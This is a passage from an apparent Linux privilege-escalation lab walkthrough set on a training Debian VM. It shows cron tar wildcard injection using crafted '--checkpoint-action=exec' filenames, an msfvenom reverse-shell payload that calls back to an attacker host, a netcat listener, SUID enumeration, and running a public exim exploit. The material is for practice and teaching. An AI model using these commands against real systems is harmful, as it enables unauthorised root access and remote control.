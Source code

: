 Note that the tar command is being run with a wildcard (*) in your home directory.

2.  Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

3. Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

4. Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

```
chmod +x /home/user/shell.elf
```

5. Create these two files in /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

6. Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```
nc -nvlp 4444
```

## SUID / SGID Executables - Known Exploits 

1. Find all the SUID/SGID executables on the Debian VM:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

2. Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at /home/user/tools/suid/exim/cve-2016-1531.sh.

3. Run the exploit script to gain a root shell:

```
/home/user/tools/suid/exim/cve-2016-1531.sh
```

##  SUID / SGID Executables - Shared Object Injection 

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.
